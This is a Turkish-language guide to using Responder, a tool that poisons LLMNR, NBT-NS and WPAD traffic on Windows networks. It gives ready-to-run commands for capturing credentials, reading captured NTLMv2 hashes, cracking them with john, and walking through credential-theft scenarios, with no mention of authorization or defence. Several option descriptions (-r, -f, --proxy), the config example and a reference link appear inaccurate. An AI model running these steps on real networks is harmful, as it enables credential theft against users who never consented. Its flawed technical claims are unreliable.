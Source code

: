 # Responder Kullanım Kılavuzu

## Giriş
Responder, ağdaki zafiyetleri istismar ederek kimlik bilgilerini ele geçirmek için kullanılan güçlü bir araçtır. Windows ortamlarında kimlik doğrulama protokollerinin (örneğin, LLMNR, NBT-NS, ve WPAD) zafiyetlerinden yararlanır. Bu kılavuz, Responder'ın kurulumunu, kullanımını ve yaygın saldırı senaryolarını ele alır.

---

## Kurulum

### 1. Gereksinimler
- **Desteklenen İşletim Sistemleri:** Linux (tercihen Kali Linux veya Parrot OS)
- **Python:** Python 3.x sürümü gereklidir.

### 2. Kurulum Adımları

#### Kali Linux veya Parrot OS
Responder genellikle bu dağıtımlarda önceden yüklüdür. Kontrol etmek için:
```bash
responder -h
```
Eğer kurulu değilse, GitHub üzerinden indirebilirsiniz:
```bash
git clone https://github.com/lgandx/Responder.git
cd Responder
```

---

## Temel Kullanım

### Komut Yapısı
```bash
sudo responder [-I arayüz] [seçenekler]
```

### Yardım Menüsü
Responder'ın komut ve seçeneklerini görmek için:
```bash
sudo responder -h
```

### Ağ Arayüzü Belirleme
Hedef ağda hangi arayüzü kullanacağınızı belirlemek için:
```bash
sudo responder -I eth0
```
- `-I`: Kullanılacak ağ arayüzünü belirtir.

---

## Özellikler ve Saldırı Modları

### 1. **LLMNR ve NBT-NS Poisoning**
Bu mod, hedef ağdaki yanlış yönlendirilmiş LLMNR ve NetBIOS sorgularını zehirler:
```bash
sudo responder -I eth0
```
- Varsayılan olarak LLMNR, NBT-NS ve MDNS etkinleştirilmiştir.

### 2. **WPAD Spoofing**
WPAD sorgularını yakalamak ve sahte WPAD yanıtları göndermek için:
```bash
sudo responder -I eth0 -w
```
- `-w`: WPAD desteğini etkinleştirir.

### 3. **HTTP ve SMB Kimlik Bilgisi Ele Geçirme**
Responder, HTTP ve SMB üzerinden kimlik bilgilerini yakalayabilir:
```bash
sudo responder -I eth0 -r
```
- `-r`: HTTP ve SMB yeniden yönlendirmesini etkinleştirir.

### 4. **DNS Poisoning**
Responder, sahte DNS yanıtları göndererek saldırganın kontrolündeki sunuculara yönlendirme yapabilir:
```bash
sudo responder -I eth0 -f
```
- `-f`: DNS spoofing özelliğini etkinleştirir.

---

## Log ve Çıktılar
Yakalanan kimlik bilgileri varsayılan olarak `logs/` dizinine kaydedilir. Örnek dosyalar:
- `SMB-NTLMv2-SSP.txt`
- `HTTP-Clear-Text-Passwords.txt`

Yakalanan bilgileri görüntülemek için:
```bash
cat logs/SMB-NTLMv2-SSP.txt
```

---

## Gelişmiş Kullanım

### Responder.conf Dosyası
Responder'ın yapılandırmasını özelleştirmek için `Responder.conf` dosyasını düzenleyebilirsiniz:
```bash
nano Responder.conf
```
Örnek olarak HTTP veya SMB protokolünü devre dışı bırakmak için ilgili satırları `Off` olarak değiştirin:
```
[HTTP]
Off
[SMB]
Off
```

### Yakalanan Hashleri Kırmak
Yakalanan NTLM hashlerini kırmak için `john` veya `hashcat` kullanabilirsiniz:
```bash
john --format=netntlmv2 hashes.txt --wordlist=wordlist.txt
```

### Proxy Kullanımı
Bir proxy sunucusunu kullanarak sahte yanıtları yeniden yönlendirebilirsiniz:
```bash
sudo responder -I eth0 --proxy
```

---

## İpuçları

### Performans İyileştirme
- Responder'ın yalnızca belirli protokolleri dinlemesini sağlamak için `Responder.conf` dosyasını düzenleyin.
- Düşük trafiğe sahip ağlarda daha etkili sonuçlar almak için aktif tarama araçlarıyla (ör. `nmap`) kombinasyon yapabilirsiniz.

### Zafiyet Kontrolü
Hedef ağda LLMNR ve NBT-NS protokolünün açık olup olmadığını kontrol etmek için `nmap` kullanabilirsiniz:
```bash
nmap -sU -p 5355 <hedef ağ>
nmap -sU -p 137 <hedef ağ>
```

---

## Örnek Senaryolar

### LLMNR Poisoning ile Kimlik Bilgisi Ele Geçirme
1. Responder'ı başlatın:
   ```bash
   sudo responder -I eth0
   ```
2. Hedef ağdaki bir kullanıcı sahte bir paylaşım yoluna erişmeye çalıştığında, kimlik bilgileri `logs/` dizinine kaydedilir.

### WPAD Spoofing ile Proxy Şifrelerini Ele Geçirme
1. WPAD modunu etkinleştirin:
   ```bash
   sudo responder -I eth0 -w
   ```
2. Hedef sistem, sahte WPAD sunucusuna yönlendirilir ve kimlik bilgileri yakalanır.

---

## Sorun Giderme

### "No Traffic Captured" Hatası
1. Ağ arayüzünüzü kontrol edin:
   ```bash
   ifconfig
   ```
2. Responder'ın doğru arayüzde çalıştığından emin olun.

### "Permission Denied" Hatası
- Responder'ı `sudo` yetkisiyle çalıştırdığınızdan emin olun.

---

## Ek Kaynaklar
- [Responder Resmi GitHub](https://github.com/lgandx/Responder)
- [LLMNR ve NBT-NS Saldırıları](https://owasp.org/www-project-vulnerable-web-applications-directory/)
- [Active Directory Zafiyetleri ve Savunma](https://adsecurity.org/)

---

## Katkıda Bulunanlar
Bu kılavuz, Responder kullanımını detaylı bir şekilde ele almak için hazırlanmıştır. Sorularınız veya önerileriniz için iletişime geçmekten çekinmeyin!
